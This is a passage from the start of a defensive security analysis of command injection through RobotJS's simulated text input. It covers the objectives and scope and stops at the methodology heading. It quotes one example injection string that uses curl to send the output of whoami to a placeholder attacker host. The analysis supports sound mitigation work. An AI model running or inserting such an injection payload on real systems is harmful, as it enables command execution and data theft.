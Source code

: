 ## Deep Analysis: Injecting OS Commands via RobotJS Text Input Simulation

This document provides a deep analysis of the attack tree path: **Injecting OS commands or malicious scripts through text input simulated by RobotJS (High-Risk Attack Step)**. This analysis is crucial for understanding the risks associated with using RobotJS for text input simulation and for developing effective mitigation strategies.

---

### 1. Define Objective of Deep Analysis

The primary objective of this deep analysis is to thoroughly investigate the attack path "Injecting OS commands or malicious scripts through text input simulated by RobotJS". This includes:

*   **Understanding the technical mechanics:**  How does this attack path work in detail? What are the underlying mechanisms that enable it?
*   **Identifying vulnerabilities:** Where are the weaknesses in the application and/or the usage of RobotJS that allow this attack to succeed?
*   **Assessing the risk:** What is the potential impact and severity of this attack? What are the possible consequences for the application and the user?
*   **Developing mitigation strategies:** What security measures can be implemented to prevent or mitigate this attack path?
*   **Raising awareness:**  Educate the development team about the specific risks associated with this attack vector and promote secure coding practices when using RobotJS.

### 2. Scope of Analysis

This analysis will focus specifically on the attack path: **Injecting OS commands or malicious scripts through text input simulated by RobotJS**.  The scope includes:

*   **Technical analysis of RobotJS `typeString()` function:**  Understanding how it simulates keyboard input at the operating system level.
*   **Exploration of command injection vulnerabilities:**  How can user-controlled input be leveraged to execute arbitrary OS commands?
*   **Analysis of the provided example attack:**  Dissecting the example `$(curl attacker.com/exfiltrate?data=$(whoami)) #` to understand its execution flow.
*   **Identification of potential application entry points:**  Where in an application using RobotJS could an attacker inject malicious input?
*   **Risk assessment based on impact and likelihood:**  Evaluating the potential damage and the probability of successful exploitation.
*   **Recommendation of specific mitigation techniques:**  Providing actionable steps for the development team to secure the application against this attack.

**Out of Scope:**

*   Analysis of other RobotJS functionalities or vulnerabilities beyond `typeString()`.
*   General command injection vulnerabilities unrelated to RobotJS.
*   Detailed code review of a specific application using RobotJS (unless necessary for illustrating a point).
*   Performance implications of mitigation strategies.

### 3. Methodology
